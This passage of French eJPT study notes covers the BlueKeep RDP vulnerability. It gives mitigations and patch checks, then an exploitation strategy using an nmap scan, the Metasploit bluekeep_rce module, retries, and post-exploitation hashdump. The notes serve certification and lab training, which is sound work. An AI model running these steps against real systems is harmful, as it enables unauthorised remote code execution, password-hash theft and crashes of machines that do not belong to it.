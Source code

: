 ### Mitigation BlueKeep
```bash
# Méthodes de protection :
# 1. Appliquer patch Microsoft (KB4499180)
# 2. Désactiver RDP si non utilisé
# 3. Utiliser NLA (Network Level Authentication)
# 4. Firewall : bloquer port 3389 externe
# 5. VPN obligatoire pour RDP
```

### Vérification patch BlueKeep
```cmd
# Vérifier si patché
wmic qfe list | findstr KB4499180

# Statut RDP
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

---

## 💡 10. Conseils et astuces eJPT

### Points critiques BlueKeep eJPT
- ⚠️ **Instabilité** : Peut crasher la cible
- 🎯 **Cibles spécifiques** : Windows 7/Server 2008 uniquement
- 🚀 **RCE direct** : Pas de credentials nécessaires
- 💥 **SYSTEM immédiat** : Privilèges maximum
- 🔄 **Retry nécessaire** : Souvent plusieurs tentatives

### Stratégie d'exploitation eJPT
```bash
# 1. Toujours scanner d'abord
nmap --script rdp-vuln-ms19-0708 target

# 2. Si VULNERABLE → Exploitation prudente
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
check                    # Double vérification
set GROOMSIZE 50         # Stabilité
exploit

# 3. Si échec → Retry
exploit
exploit

# 4. Post-exploitation rapide
getuid && hashdump && search -f flag.txt
```

### Erreurs courantes BlueKeep
- ❌ **Ne pas vérifier OS** → Exploitation sur cible non vulnérable
- ❌ **Pas de check** avant exploit → Waste time
- ❌ **GROOMSIZE trop élevé** → Crash système
- ❌ **Pas de retry** → Abandon trop rapide
- ❌ **Migration oubliée** → Session instable
